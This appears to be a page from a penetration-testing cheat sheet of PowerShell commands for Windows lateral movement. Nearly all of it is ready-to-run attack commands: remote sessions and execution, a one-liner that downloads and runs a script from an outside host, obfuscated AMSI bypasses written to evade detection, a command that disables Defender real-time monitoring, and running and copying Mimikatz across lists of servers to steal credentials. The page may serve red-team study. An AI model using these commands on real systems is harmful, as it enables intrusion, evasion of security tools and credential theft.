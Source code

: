 ```yaml
---
layout: editorial
---
```


# Thinking

**Connect to machine with administrator privs**

```
Enter-PSSession -Computername <computername>
$sess = New-PSSession -Computername <computername>
Enter-PSSession $sess
```

**Execute commands on a machine**

```
Invoke-Command -Computername <computername> -Scriptblock {whoami} 
Invoke-Command -Scriptblock {whoami} $sess
```

**Load script on a machine**

```
Invoke-Command -Computername <computername> -FilePath <path>
Invoke-Command -FilePath <path> $sess
```

**Download and load script on a machine**

```
iex (iwr http://xx.xx.xx.xx/<scriptname> -UseBasicParsing)
```

**AMSI Bypass**

* First one gets detected, added a new one!

{% code overflow="wrap" %}
```
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```
{% endcode %}

{% code overflow="wrap" %}
```
$v=[Ref].Assembly.GetType('System.Management.Automation.Am' + 'siUtils'); $v."Get`Fie`ld"('ams' + 'iInitFailed','NonPublic,Static')."Set`Val`ue"($null,$true)
```
{% endcode %}

{% code overflow="wrap" %}
```
Invoke-Command -Scriptblock {sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )} $sess
```
{% endcode %}

**Disable AV monitoring**

```
Set-MpPreference -DisableRealtimeMonitoring $true
```

**Execute locally loaded function on a list of remote machines**

{% code overflow="wrap" %}
```
Invoke-Command -Scriptblock ${function:<function>} -Computername (Get-Content <list_of_servers>)
```
{% endcode %}

{% code overflow="wrap" %}
```
Invoke-Command -ScriptBlock ${function:Invoke-Mimikatz} -Computername (Get-Content <list_of_servers>)
```
{% endcode %}

**Check the language mode**

```
$ExecutionContext.SessionState.LanguageMode
```

**Enumerate applocker policy**

```
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

**Copy script to other server**

ps you can edit the script and call the method you wish so it executes, since you still cant load it in

```
Copy-Item .\Invoke-MimikatzEx.ps1 \\<servername>\c$\'Program Files'
```
